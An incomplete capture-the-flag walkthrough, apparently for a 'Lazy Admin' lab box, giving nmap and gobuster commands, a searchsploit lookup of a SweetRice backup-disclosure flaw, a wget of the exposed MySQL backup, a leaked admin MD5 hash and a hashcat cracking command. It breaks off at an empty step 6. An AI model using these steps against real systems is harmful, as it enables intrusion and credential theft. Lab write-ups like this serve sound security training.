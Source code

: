 # lazy admin final

## _step 1

scan host:

***sudo nmap -sV -Pn -p- -T4 `host-ip`***

 __open__ ports:

      port 22 ssh - OpenSSH 7.2p2
      
      port 80 http - Apache httpd 2.4.18

## _step 2

scan for directories:

***gobuster dir -u http://`host-ip` -w `/usr/share/wordlists/dirb/common.txt`***

      /.htpasswd
      /.htaccess
      /content
      /server-status

another scan in **/content**

***gobuster dir -u http://`host-ip`/content/ -w `/usr/share/wordlists/dirb/common.txt`***

      /.htpasswd
      /.htaccess
      /_themes
      /as
      /attachment
      /images
      /inc
      /index.php
      /js

## _step 3

in */index.php* we found a cms named **sweet rice** 

***searchsploit sweet rice***

---->   **SweetRice 1.5.1 - Backup Disclosure /php/webapps/40718.py**

***cat /usr/share/exploitdb/exploit/php/webapps/40718.py***

      Proof of Concept :

      You can access to all mysql backup and download them from this directory.
      
      http://host-ip/inc/mysql_backup/

----> **http://`host-ip`/content/inc/mysql_backup/**

## _step 4

lets get the mysql backup file

***wget http://`host-ip`/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql***

in this file we can find credentials

name: **manager**
passwordhash: **42f749ade7f9e195bf475f37a44cafcb**

## _step 5

lets crack the **md5** passwordhash with hashcat

***hashcat -m 0 `yourfile.txt` /usr/share/wordlists/rockyou.txt***

## _step 6






   
    
